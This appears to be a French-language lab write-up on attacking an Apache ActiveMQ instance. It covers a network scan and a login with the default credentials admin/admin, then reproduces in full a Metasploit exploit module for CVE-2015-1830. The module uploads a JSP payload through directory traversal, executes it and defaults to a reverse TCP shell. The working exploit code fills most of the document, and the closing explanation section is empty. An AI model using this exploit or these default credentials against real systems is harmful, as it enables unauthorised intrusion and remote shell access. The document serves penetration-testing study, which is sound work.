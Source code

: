 ## ActiveMQ_2015

### Scan du réseau
Dans le cas d'ActiveMQ_2015 l'adresse ip est 172.18.0.1
![Capture d'écran 2024-10-01 121316](https://github.com/user-attachments/assets/8d40d00b-0967-452f-8e6e-0fdf3dcc81e7)

Grace à notre scan on en déduit que le port qui nous intéresse est le 8161.
Pour se rediriger sur le site le lien est donc `http://localhost:8161`

### Version d'ActiveMQ 
Pour savoir la version il faut se connecter:  
- Login: admin
- Mot de passe: admin
![Capture d'écran 2024-10-01 115916](https://github.com/user-attachments/assets/1cc0ec1d-9c63-4438-8c34-dd006a92ac7b)

### CVE Score
![Capture d'écran 2024-10-01 121800](https://github.com/user-attachments/assets/0566d3f7-64a6-470f-9ca1-1b5049191008)

### Stratégie de compromission

 This module requires Metasploit: https://metasploit.com/download
 Current source: https://github.com/rapid7/metasploit-framework


class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Apache ActiveMQ 5.x-5.11.1 Directory Traversal Shell Upload',
      'Description'    => %q{
        This module exploits a directory traversal vulnerability (CVE-2015-1830) in Apache
        ActiveMQ 5.x before 5.11.2 for Windows.

        The module tries to upload a JSP payload to the /admin directory via the traversal
        path /fileserver/..\\admin\\ using an HTTP PUT request with the default ActiveMQ
        credentials admin:admin (or other credentials provided by the user). It then issues
        an HTTP GET request to /admin/<payload>.jsp on the target in order to trigger the
        payload and obtain a shell.
      },
      'Author'          =>
        [
          'David Jorm',     # Discovery and exploit
          'Erik Wynter'     # @wyntererik - Metasploit
        ],
      'References'     =>
        [
          [ 'CVE', '2015-1830' ],
          [ 'EDB', '40857'],
          [ 'URL', 'https://activemq.apache.org/security-advisories.data/CVE-2015-1830-announcement.txt' ]
        ],
      'Privileged'     => false,
      'Platform'    => %w{ win },
      'Targets'     =>
        [
          [ 'Windows Java',
            {
              'Arch' => ARCH_JAVA,
              'Platform' => 'win'
            }
          ],
        ],
      'DisclosureDate' => '2015-08-19',
      'License'        => MSF_LICENSE,
      'DefaultOptions'  => {
        'RPORT' => 8161,
        'PAYLOAD' => 'java/jsp_shell_reverse_tcp'
        },
      'DefaultTarget'  => 0))

    register_options([
      OptString.new('TARGETURI', [true, 'The base path to the web application', '/']),
      OptString.new('PATH',      [true, 'Traversal path', '/fileserver/..\\admin\\']),
      OptString.new('USERNAME', [true, 'Username to authenticate with', 'admin']),
      OptString.new('PASSWORD', [true, 'Password to authenticate with', 'admin'])
    ])
  end

  def check
    print_status("Running check...")
    testfile = Rex::Text::rand_text_alpha(10)
    testcontent = Rex::Text::rand_text_alpha(10)

    send_request_cgi({
      'uri'       => normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
      'headers'     => {
        'Authorization' => basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    => 'PUT',
      'data'      => "<% out.println(\"#{testcontent}\");%>"
    })

    res1 = send_request_cgi({
      'uri'       => normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
      'headers'     => {
        'Authorization' => basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    => 'GET'
    })

    if res1 && res1.body.include?(testcontent)
      send_request_cgi(
        opts = {
          'uri'       => normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
          'headers'     => {
            'Authorization' => basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
            },
          'method'    => 'DELETE'
        },
        timeout = 1
      )
      return Exploit::CheckCode::Vulnerable
    end

    Exploit::CheckCode::Safe
  end

  def exploit
    print_status("Uploading payload...")
    testfile = Rex::Text::rand_text_alpha(10)
    vprint_status("If upload succeeds, payload will be available at #{target_uri.path}admin/#{testfile}.jsp") #This information is provided to allow for manual execution of the payload in case the upload is successful but the GET request issued by the module fails.

    send_request_cgi({
      'uri'       => normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
      'headers'     => {
        'Authorization' => basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    => 'PUT',
      'data'      => payload.encoded
    })

    print_status("Payload sent. Attempting to execute the payload.")
    res = send_request_cgi({
      'uri'       => normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
      'headers'     => {
        'Authorization' => basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
      },
      'method'    => 'GET'
    })
    if res && res.code == 200
      print_good("Payload executed!")
    else
      fail_with(Failure::PayloadFailed, "Failed to execute the payload")
    end
  end
end
            

### Exploitation/Explication
